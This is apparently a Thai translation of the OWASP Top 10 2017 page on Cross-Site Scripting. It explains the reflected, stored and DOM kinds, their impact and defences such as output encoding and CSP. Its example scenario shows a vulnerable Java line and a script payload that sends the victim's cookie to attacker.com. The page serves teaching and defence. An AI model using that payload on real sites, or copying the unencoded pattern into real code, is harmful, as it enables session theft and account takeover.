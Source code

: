 # A7:2017 Cross-Site Scripting (XSS)

| ผู้โจมตี/ช่องทาง | จุดอ่อนด้านความปลอดภัย           | ผลกระทบ               |
| -- | -- | -- |
| การเข้าถึงช่องโหว่ : ความยากในการโจมตี 3 | แพร่กระจายง่าย 3 : ตรวจพบได้ง่าย 3 | ผลกระทบทางเทคนิค 2 : ผลกระทบทางธุรกิจ ? |
| โปรแกรมตรวจสอบช่องโหว่อัตโนมัติ สามารถใช้ตรวจจับและโจมตีช่องโหว่ประเภท XSS ได้ทั้งสามรูปแบบ (Reflected XSS, Stored XSS และ DOM XSS) พร้อมทั้งมี เฟรมเวิร์ค สำหรับโจมตีช่องโหว่นี้โดยเฉพาะแจกฟรีอีกด้วย เช่น BeEF (Browser Exploitation Framework) | ช่องโหว่ XSS แพร่กระจายได้มากเป็นอับดับสอง ใน OWASP Top 10 และพบว่าสองในสามส่วนแอพพลิเคชั่นที่ถูกทดสอบความปลอดภัยมีช่องโหว่ XSS โปรแกรมตรวจสอบช่องโหว่อัตโนมัติสามารถใช้หาช่องโหว่ XSS บางส่วนได้ โดยเฉพาะในเว็บเทคโนโลยีหลัก ๆ อย่าง PHP, J2EE / JSP และ ASP.NET | โดยทั่วไปผลกระทบของช่องโหว่ XSS มีความรุนแรงปานกลางสำหรับประเภท Reflected กับ DOM XSS และมีความรุนแรงสูงสำหรับประเภท Stored XSS ผลกระทบหลัก ๆ คือผู้โจมตีสามารถสั่งการทำงานฝั่ง client บน web browser ของเหยื่อได้ เช่นสามารถขโมย รหัสผ่านที่พิมพ์หรือจากใน DOM, ขโมย user session หรือโจมตีเหยื่อด้วยมัลแวร์ที่เขียนจาก JavaScript |

## แอพพลิเคชั่นนี้มีช่องโหว่หรือไม่?

ช่องโหว่ XSS มีสามประเภท ซึ่งทั้งหมดนี้โจมตีไปที่ web browser ของเหยื่อ:

* **Reflected XSS**: เกิดจากแอพพลิเคชั่นหรือ API รับค่ามาจากผู้ใช้งานโดยไม่ได้ตรวจสอบมาแสดงผลเป็นหน้าเว็บ HTML ถ้าถูกโจมตีสำเร็จ ผู้โจมตีสามารถสั่งการทำงานด้วยโค้ด HTML และ JavaScript ใด ๆ บน web browser ของเหยื่อได้ตามต้องการ โดยปกติแล้ว XSS ประเภทนี้ เหยื่อจะต้องเข้า link หน้าเว็บที่ผู้โจมตีสร้างหรือใส่ HTTP parameter บนเว็บที่มีช่องโหว่ XSS แล้วส่งมาให้เหยื่อเปิด อาจใช้ร่วมกับการโจมตีแบบอื่นเช่น watering hole, การแพร่เว็บโฆษณา และอื่น ๆ 
* **Stored XSS**: เกิดจากแอพพลิเคชั่นหรือ API เก็บค่าที่รับมาจากผู้ใช้งานโดยไม่ได้ตรวจสอบแล้วนำมาแสดงผลในภายหลัง ให้ผู้ใช้งานหรือผู้ดูแลระบบเห็น โดยปกติแล้ว Stored XSS จัดว่าเป็นช่องโหว่ที่มีความรุนแรงสูงหรือร้ายแรงมาก
* **DOM XSS**: เฟรมเวิร์ค JavaScript , แอพพลิเคชั่นที่มีหน้าเดียว และ API ต่าง ๆ ที่รับค่าที่ผู้โจมตีควบคุมได้ส่งมาแสดงโดยไม่ได้ตรวจสอบ มาแสดงตอน JavaScript กำลังทำงานอยู่และค่าที่ผู้โจมตีส่งมาทำงานเป็น JavaScript เกิดขึ้นใน DOM จะเรียกได้ว่าเป็น DOM XSS 

ปกติแล้วการโจมตีแบ XSS ส่งผลให้ผู้โจมตีสามารถขโมย user session เหยื่อได้, ยึดบัญชีของเหยื่อได้, ข้ามผ่านการยืนยันตัวแบบ MFA (Multi-Factor Authentication), แก้ไขค่าใน DOM node บน HTML หรือแก้ไขหน้าเว็บ (เช่นสร้างหน้าล็อคอินปลอม), โจมตีผู้ใช้งานเว็บผ่าน web browser เช่นหลอกให้ดาวโหลดไฟล์มัลแวร์, ดักรหัสผ่านบนคีย์บอร์ด และการโจมตี client-side อื่น ๆ อีกมากมาย

## ป้องกันอย่างไร

การป้องกันช่องโหว่ XSS จะต้องทำการแยก ข้อมูลที่รับมาจากผู้ใช้งานออกจากโค้ด HTML และ JavaScript ที่ทำงานปกติในหน้าเว็บ ซึ่งสามารถทำได้โดย:

* ใช้เฟรมเวิร์คที่ทำการป้องกัน XSS มาให้ตอนแสดงค่าที่รับมาจากผู้ใช้งานอยู่แล้ว เช่นใน Ruby on Rails หรือ React JS เวอร์ชั่นล่าสุด และจำเป็นต้องศึกษาข้อจำกัดของเฟรมเวิร์คในการป้องกัน XSS พร้อมทั้งวิธีการจัดการค่าที่รับเข้ามาในกรณีที่เฟรมเวิร์คไม่ได้ครอบคลุมในจุดนั้น ๆ
* แปลงค่าที่รับเข้ามาผ่าน HTTP request ให้เหมาะสมกับส่วนที่นำไปแสดงผลของหน้าเว็บ (เช่นในส่วนของ body, attribute, JavaScript, CSS, หรือ URL) จะช่วยแก้ปัญหาช่องโหว่ XSS ได้ เพิ่มเติมคือในเอกสาร [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) มีบอกรายละเอียดว่ารับค่าเข้ามาแสดงที่ส่วนไหน จะต้องใช้เทคนิคแปลงใดค่า
* เมื่อมีการแก้ไขข้อมูลบนหน้าเว็บผ่าน JavaScript จะต้องทำการแปลงค่าอย่างปลอดภัยซึ่งแตกต่างกันตามแต่ส่วนที่นำไปแสดง เพื่อป้องกัน DOM XSS ถ้าไม่สามารถแปลงได้ ให้ใช้เทคนิคอื่น ๆ ที่อธิบายไว้ในเอกสาร  [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* เปิดใช้งานฟีเจอร์ [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) ซึ่งเป็นการป้องกัน XSS โดยใช้หลักการของ defense-in-depth ถ้าใช้อย่างถูกวิธี จะป้องกัน XSS ได้ถ้าไม่มีช่องโหว่อื่น ๆ ที่ทำให้ผู้โจมตีสามารถใส่โค้ดอันตรายผ่านการนำไฟล์มาแสดงผลบนหน้าเว็บได้ (เช่น path traversal ที่เขียนทับไฟล์ JavaScript ที่นำมาแสดงหรือผู้โจมตีสามารถแก้ไขค่าใน JavaScript library บน CDN ที่เว็บเรียกโค้ดมาใช้ได้) 

## ตัวอย่างของกระบวนการโจมตี

**Scenario #1**: กรณีที่แอพพลิเคชั่นรับค่าจากผู้ใช้งานโดยไม่ได้ตรวจสอบหรือแปลงให้ปลอดภัยแล้วนำมาแสดงบนหน้าเว็บโดยตรงจากโค้ดภาษา Java ต่อไปนี้:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
ผู้โจมตีสามารถแก้ไขค่า HTTP parameter ชื่อ CC ผ่าน web browser ไปเป็นค่า:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

แล้วส่ง link ไปให้เหยื่อเปิด การทำแบบนี้จะเป็นการใส่ JavaScript เพื่อโจมตีทำให้ session ID ที่อยู่ใน cookie ของ web browser ของคนที่เปิด link ถูกส่งไปยังเว็บของผู้โจมตี ส่งผลให้ ผู้โจมตีสามารถข้ามผ่านการล็อคอินเข้าไปเป็น user session ของเหยื่อได้

**ข้อสังเกต**: ถ้าเกิดในแอพพลิเคชั่นมีช่องโหว่ XSS ผู้โจมตีสามารถโจมตี XSS เพื่อข้ามผ่านการป้องกันของช่องโหว่ CSRF ใด ๆ และทำการโจมตีแบบ CSRF ต่อได้

## อ้างอิง

### จาก OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

